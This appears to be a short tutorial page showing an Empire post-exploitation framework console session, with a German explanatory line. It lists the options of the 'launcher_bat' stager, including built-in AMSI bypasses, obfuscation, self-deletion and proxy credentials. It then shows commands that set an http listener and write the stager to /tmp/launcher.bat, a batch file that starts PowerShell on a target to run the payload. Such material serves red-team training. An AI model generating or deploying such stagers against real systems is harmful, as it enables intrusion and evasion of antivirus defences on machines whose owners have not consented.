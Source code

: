```
(Empire: stager/windows/launcher_bat) > 
```

```
(Empire: stager/windows/launcher_bat) > info

Name: BAT Launcher

Description:
  Generates a self-deleting .bat launcher for
  Empire.

Options:

  Name             Required    Value             Description
  ----             --------    -------           -----------
  Listener         True                          Listener to generate stager for.
  Language         True        powershell        Language of the stager to generate.
  StagerRetries    False       0                 Times for the stager to retry
                                                 connecting.
  OutFile          False       /tmp/launcher.bat File to output .bat launcher to,
                                                 otherwise displayed on the screen.
  Delete           False       True              Switch. Delete .bat after running.
  Obfuscate        False       False             Switch. Obfuscate the launcher
                                                 powershell code, uses the
                                                 ObfuscateCommand for obfuscation types.
                                                 For powershell only.
  ObfuscateCommand False       Token\All\1       The Invoke-Obfuscation command to use.
                                                 Only used if Obfuscate switch is True.
                                                 For powershell only.
  UserAgent        False       default           User-agent string to use for the staging
                                                 request (default, none, or other).
  Proxy            False       default           Proxy to use for request (default, none,
                                                 or other).
  ProxyCreds       False       default           Proxy credentials
                                                 ([domain\]username:password) to use for
                                                 request (default, none, or other).
  AMSIBypass       False       True              Include mattifestation's AMSI Bypass in
                                                 the stager code.
  AMSIBypass2      False       False             Include Tal Liberman's AMSI Bypass in
                                                 the stager code.
```

```
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute

[*] Stager output written out to: /tmp/launcher.bat
     
```

Stager ist ein Batchdatei die eine Powershell auf dem Zielsystem aufruft und über diesen Weg die Payload ausführt.
